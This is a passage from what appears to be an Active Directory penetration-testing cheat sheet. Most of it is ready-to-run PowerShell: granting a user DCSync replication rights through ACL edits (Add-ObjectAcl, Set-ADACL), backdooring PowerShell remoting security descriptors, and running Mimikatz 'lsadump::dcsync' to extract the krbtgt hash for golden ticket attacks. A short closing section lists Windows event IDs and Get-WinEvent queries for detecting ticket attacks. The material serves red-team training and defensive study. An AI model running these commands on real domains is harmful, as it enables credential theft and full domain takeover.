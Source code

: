 * Security Descriptors
```
Set-RemotePSRemoting -UserName <user> -Verbose
Set-RemotePSRemoting -UserName <user> -ComputerName <hostname> -Verbose
Set-RemotePSRemoting -UserName <user> -ComputerName <hostname> -Verbose -Remove
```

### DCSync Attack
DCSync is an attack that consists of simulating the behavior of a domain controller, recovering password data through domain replication, being widely used to recover the KRBTGT hash and later escalating to a golden ticket attack.
* Check if user Replication (DCSync) rights
```
Get-ObjectAcl -DistinguishedName "dc=example, dc=ok,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "<user>") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```

* Adding Replication Rights (DCSync) to a User using ACLs (requires high privilege) (PowerView)  
```
Add-ObjectAcl -TargetDistinguishedName "dc=example, dc=ok, dc=local" -PrincipalSamAccountName <user> -Rights DCSync -Verbose
```
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```
or  
* Using ActiveDirectory Module and Set-ADACL  
```
Import-Module Microsoft.ActiveDirectory.Management.dll
Import-Module ActiveDirectory.psd1
. .\Set-ADACL.ps1
Set-ADACL -DistinguishedName 'DC=example, DC=ok.corp, DC=local'-Principal <user> -GUID RightDCSync -Verbose
```
```
Get-ObjectAcl -DistinguishedName "dc=example,dc=ok.corp,dc=local" -ResolveGUIDs | ?{($_.IdentityReference -match "studentx") -and (($_.ObjectType -match'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```

## Attacks Detection via Events
### Golden Ticket - Detection
Event ID:  
- 4624: Account Logon  
- 4672: Admin Logon  
```
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List -Property *
```

### Silver Ticket - Detection
Event ID: 
- 4624: Account Logon  
- 4634: Account Logoff  
- 4672: Admin Logon  
```
Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List -Property *
```
